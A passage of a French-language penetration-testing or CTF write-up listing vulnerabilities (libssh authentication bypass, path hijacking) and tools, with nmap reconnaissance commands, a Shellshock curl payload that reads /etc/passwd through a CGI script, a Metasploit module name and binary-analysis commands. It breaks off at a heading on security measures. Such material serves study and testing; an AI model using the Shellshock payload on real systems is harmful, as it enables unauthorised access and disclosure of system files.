 ### **Libssh Authentication Bypass (CVE-2018-10933)**
- **Description:** Bypass d'authentification dans libssh
- **Cible:** Serveurs SSH utilisant libssh vulnérable
- **Impact:** Accès non autorisé

### **Path Hijacking**
- **Description:** Exploitation de binaires exécutant des programmes relatifs
- **Cible:** Programmes SUID/privilégiés avec PATH non sécurisé
- **Impact:** Escalade de privilèges

---

## 🔧 Outils et Techniques

### **Reconnaissance**
```bash
# Scan complet
nmap -sC -sV -p- target

# Identification de services
nmap --script=banner target
```

### **Exploitation Shellshock**
```bash
# Test manuel
curl -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" \
     http://target/cgi-bin/script.cgi

# Via Metasploit
use multi/http/apache_mod_cgi_bash_env_exec
```

### **Analyse de binaires**
```bash
# Informations sur le fichier
file binary_name

# Strings lisibles
strings binary_name

# Permissions et propriétés
ls -la binary_name

# Trace d'exécution
strace ./binary_name
```

---

## 🛡️ Mesures de Sécurisation
